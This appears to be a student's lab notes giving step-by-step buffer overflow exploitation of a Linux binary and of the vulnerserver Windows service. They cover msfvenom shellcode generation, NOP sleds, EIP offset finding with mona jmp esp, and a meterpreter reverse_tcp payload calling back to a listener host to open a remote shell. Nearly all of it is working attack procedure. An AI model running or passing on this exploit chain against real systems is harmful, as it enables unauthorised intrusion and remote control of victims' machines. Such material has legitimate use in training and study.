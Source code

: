 28. open new console -> msfdb init (to initialize metasploit) -> msfconsole to run
29. use payload/linux/x86/exec -> show options
30. set CMD whoami && ifconfig -> show options again (just to verify if it works)
31. generate -b '\x00\' -f python (this generates byte code) 
32. copy the byte code -> paste it all into your python script
33. add a no op sled to your python script 'nop = "\x90" * 10'
34. change eip to the little endian of your first stack location.
35. change print statement to include nop and buf
36. then go to linops terminal and run -> ./func <<<$(./lin_buf.py)

(if it doesnt work, regenerate shell code, change EIP, check print statement, make sure you're just using 'python' , on target machine -> put this in /tmp)

**MSFvenom one liner** 'msfvenom -p linux/x86/exec CMD="whoami && ifconfig" -b '\x00' -f python

SCP through a tunnel syntax 
scp -P 1111 lin_buf1.py comrade@127.0.0.1:/home/comrade
Windows Buffer Overflow
https://z3r0th.medium.com/a-simple-buffer-overflow-using-vulnserver-86b011eb673b

1. attempt to run malware
2. nmap -Pn -sT -T5 --script=banner 10.50.34.195 (from linops to see what ports opened on winops)
3. 9999 was open, so we used nc '10.50.34.195 9999'
4. made win_buf.py script to interact w/ ip and port 9999
5. go back to winops, open immunity -> file -> attach -> attach the .exe, just pay attention to the cpu thread window here.
6. click the play button in the top left -> send your script again.
7. find out how many bytes we have to send to overwrite it -> modify buf in script to vulnerable command, add 'buf += "A" * 100', keep modifying the 100 value until it breaks.
8. once broken, go into wiremask and copy the value you used into length. -> then copy and paste the pattern into your script in the buf += part.
9. run the script with the new buf, copy and paste the EIP as the register value in wiremask to find the offset.
10. go back into your script. delete the pattern you put in buf +=, and add the offset value you got from wiremask.
11. add another buf += "B" * 4 -> sen script, check new EIP to see if it worked.
12. if its broken, rewind and hit play again. type !mona modules at the bottom. -> then run !mona jmp -r esp -m "essfunc.dll" -> click l at the top if it goes away.
13. go down to where you see your command, copy and paste the address of the first result. -> add that jmp esp to your exploit (you're replacing the "B" with this in little endian)
14. then below that line, add buf += "\x90" * 15
15. then on linops -> msfvenom -p windows/meterpreter/reverse_tcp lhost=10.50.36.204 lport=10000 -b "\x00" -f python (the lhost is linops ip)
16. The command above generates shellcode, do not take the first line.
17. go back into msfconsole -> use multi/handler -> show options -> set payload windows/meterpreter/reverse_tcp -> set LHOST 0.0.0.0 -> set LPORT 10000 (change the LPORT to whatever you used in msfvenom)
18. ensure the malware is running on winops -> type 'exploit' on msfconsole -> then run your script in another window 'python win_buf.py) -> this should give you a shell on the victim device. -> type help to look for commands.
Post Exploitation
https://sec.cybbh.io/public/security/latest/lessons/lesson-8-post_sg.html
